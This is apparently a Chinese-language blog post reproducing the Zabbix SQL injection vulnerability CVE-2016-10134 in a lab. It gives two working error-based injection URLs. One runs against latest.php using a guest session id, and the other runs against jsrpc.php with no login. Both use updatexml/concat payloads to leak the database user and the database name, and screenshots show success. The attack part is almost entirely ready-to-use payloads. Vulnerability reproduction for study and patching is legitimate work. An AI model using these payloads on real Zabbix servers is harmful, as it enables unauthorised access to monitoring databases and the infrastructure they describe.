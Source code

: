 ```yaml
---
title: zabbix sql注入(CVE-2016-10134)
date: 2020-07-21 22:18:04
categories: 漏洞复现
tags: zabbix
---
```


#### 背景

zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供柔软的通知机制以让系统管理员快速定位/解决存在的各种问题。其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

<!--more-->

####  复现过程

##### 游客登录注入

用账号`guest`（密码为空）登录游客账户，查看Cookie中的`zbx_sessionid`，复制后16位字符

![](http://cdn.laohuan.art/2020-07-20_19-29-51.png)

将复制的后16位字符作为参数sid的值，访问如下URL

```
http://IP:8080/latest.php?output=ajax&sid=9c763311eeda748a&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

成功爆出用户

![](http://cdn.laohuan.art/2020-07-20_19-35-38.png)

##### 无需登录注入

访问如下url

```
http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,database()),0)
```

成功爆出数据库

![](http://cdn.laohuan.art/2020-07-20_19-37-30.png)